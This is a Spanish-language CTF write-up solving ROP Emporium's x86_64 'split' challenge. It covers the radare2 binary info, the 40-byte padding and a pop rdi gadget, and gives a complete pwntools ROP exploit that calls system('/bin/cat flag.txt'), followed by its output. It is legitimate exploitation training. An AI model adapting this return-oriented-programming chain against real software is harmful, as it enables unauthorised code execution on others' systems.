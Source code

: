 ```yaml
---
layout: post
title: Split64 - RopEmporium
tags: [ctf, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 2

![img](/imgs/write-ups/ropemporium/split64/split64.png#center)

## Introducción

En este writeup resuelvo la version **x86_64**.

Recomiendo leer antes la version **x86** ya que solo menciono las diferencias fundamentales para la resolución.

## Información del binario

```
[0x7fc8d82d99c0]> iI
arch     x86
baddr    0x400000
binsz    6805
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

## Diferencias

### Padding

![img](/imgs/write-ups/ropemporium/split64/stack.png#center)

Como se puede ver, entre la variable y la dirección de retorno a sobreescribir hay 40 bites (0x28).

### UsefulFunction

![img](/imgs/write-ups/ropemporium/split64/useful.png#center)

La dirección del comando a ejecutar se envía a la llamada a system a través del registro **rdi**. Por lo que habrá que utilizar un gadget para modificar su valor.

## Explotación

### Gadget

Utilizo radare2 para buscar un gadget que me permite modificar el registro rdi.

![img](/imgs/write-ups/ropemporium/split64/poprdi.png#center)

Utilizo el primero aunque existen muchos más de los que se muestra en la imágen.

### Script

exploit.py

```python
#!/bin/python3

from pwn import *

p = process("./split")
p.recvuntil(">")

payload = b""
payload += b"A" * 40        # padding
payload += p64(0x004007c3)  # pop rdi gadget address
payload += p64(0x00601060)  # 0x00601060 .data ascii "/bin/cat flag.txt"
payload += p64(0x0040074b)  # 0x0040074b call sym.imp.system 

p.sendline(payload)

print(p.recvall())
```

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './split': pid 73283
/home/kali/Desktop/ropemporium/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[+] Receiving all data: Done (119B)
[*] Stopped process './split' (pid 73283)
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\nsplit by ROP Emporium\nx86_64\n\nContriving a reason to ask user for data...\n'
```

Y con esto termina mi solución. :)
